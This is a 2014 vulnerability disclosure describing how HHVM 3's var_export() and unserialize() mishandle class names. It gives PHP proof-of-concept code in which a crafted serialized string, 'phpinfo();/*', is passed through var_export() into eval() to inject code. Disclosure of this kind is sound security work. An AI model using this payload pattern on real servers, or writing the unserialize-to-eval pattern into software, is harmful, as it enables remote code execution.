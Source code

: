 ### Code Injection Vulnerability via unserialize() Function and var_export() Function in HHVM 3
> Taoguang Chen <[@chtg](http://github.com/chtg)> - 2014.10.29

HHVM's var_export() function wrongly handles an undefined class, and unserialize() function wrongly handles an invalid classname.

HHVM's var_export() function
-------------------
**HHVM's var_export() function had a parse error when exporting an undefined class:**

``` php
<?php

$str = 'O:7:"phpinfo":0:{}';
$obj = unserialize($str);
var_dump($obj);
var_export($obj);
```
The outputs in PHP >= 5.1:

```php
object(__PHP_Incomplete_Class)#1 (1) {
  ["__PHP_Incomplete_Class_Name"]=>
  string(7) "phpinfo"
}
__PHP_Incomplete_Class::__set_state(array(
   '__PHP_Incomplete_Class_Name' => 'phpinfo',
))
```
The outputs in HHVM 3:

``` php
object(__PHP_Incomplete_Class)#1 (1) {
  ["__PHP_Incomplete_Class_Name"]=>
  string(7) "phpinfo"
}
phpinfo::__set_state(array(
))
```

HHVM's unserialize() funciton
-------------------
**HHVM's unserialize() funciton had a classname parse error when unserializing object:**

``` php
<?php

$str = 'O:12:"phpinfo();/*":0:{}';
$obj = unserialize($str);
var_dump($obj);
```
The outputs in PHP >= 5.1:

``` php
Notice: unserialize(): Error at offset 13 of 24 bytes in ...
bool(false)
```
The outputs in HHVM 3:

``` php
object(__PHP_Incomplete_Class)#1 (1) {
  ["__PHP_Incomplete_Class_Name"]=>
  string(12) "phpinfo();/*"
}
```

Code Injection Vulnerability
-------------------
**Exploit these bug, it is possible to inject arbitrary code. The codes below shows a dangerous way to use unserialize() function and var_export() function :)**

``` php
<?php

$str = 'O:12:"phpinfo();/*":0:{}';
$obj = unserialize($str);
// var_export($obj);
eval('$str = ' . var_export($obj, true) . ';');
```
The outputs in HHVM 3:

``` php
// phpinfo();/*::__set_state(array(
// ))
// ok! phpinfo() function executed:)
HipHop
```
